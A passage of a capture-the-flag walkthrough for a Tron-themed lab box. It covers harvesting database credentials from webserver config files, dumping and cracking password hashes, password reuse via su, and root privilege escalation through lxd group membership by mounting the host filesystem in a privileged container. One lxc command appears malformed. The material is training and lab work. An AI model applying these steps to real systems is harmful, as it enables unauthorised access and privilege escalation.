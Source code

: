 8.  **Qus :**   Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

    **Ans :**   change directory to `/var/www/TheGrid/includes` and look for a file with `*auth*` in its name

9.  **Qus :**   Access the database and discover the encrypted credentials. What is the name of the database you find these in?

    **Ans :**   with the username and password login to the database with `mysql -utron -p` and enter the password.
    
    use `show databases;` to get the list of databases

10. **Qus :**   Crack the password. What is it?

    **Ans :**   to use the database type : `use tron;`
    
    use `show tables;` to list out the tables.

    type the command `select * from users` to get the username and hashed password.

    goto (https://crackstation.net/) to get the password in plain text.

11.  **Qus :** Use su to login to the newly discovered user by exploiting password reuse.

    **Ans :** after logging in with `su flynn_lives`

    by using `id` I came to know the user `flynn` is in `lxd` group.

    lets look for if any lxd image is already available in it by `lxc image list`

    initialze a lxd container with : `lxc Alpine badboy -c security.privileged=true`

    mount the file system to the container with `lxc config device add badboy trogdor disk source=/ path=/mnt/root recursive=true` 

    start the container with `lxc start badboy`

    use the container with `lxc exec badboy /bin/sh`

    now go to `/root/` to get the flag.
